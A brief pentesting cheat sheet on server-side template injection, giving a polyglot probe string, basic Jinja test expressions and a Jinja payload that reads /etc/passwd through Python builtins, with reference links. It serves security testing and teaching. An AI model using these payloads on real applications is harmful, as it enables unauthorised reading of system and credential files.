

# SSTI (Server Side Template Injection)

## SSTI basics

### Identify the vulnerability

Polyglot is commonly used in template expressions fuzzing. If an error occurs it might be vulnerable and also can be to identify the template engine in use.

```python
${{<%[%'"}}%\.
```

The following cheat sheet can be used to identify the template engine in use:

<figure><figcaption><p>cheat sheet to determine the vulnerability</p></figcaption></figure>

## Python: Jinja

### Jinja: Basic injection

```django
{{7*7}}
{{7*'7'}}
{{4*4}}[[5*5]]
```

### Jinja: Read file

```django
{{ get_flashed_messages.__globals__.__builtins__.open("/etc/passwd").read() }}
```

## References

* [https://portswigger.net/web-security/server-side-template-injection](https://portswigger.net/web-security/server-side-template-injection)
* [https://www.cobalt.io/blog/a-pentesters-guide-to-server-side-template-injection-ssti](https://www.cobalt.io/blog/a-pentesters-guide-to-server-side-template-injection-ssti)
* [https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/Server%20Side%20Template%20Injection](https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/Server%20Side%20Template%20Injection)
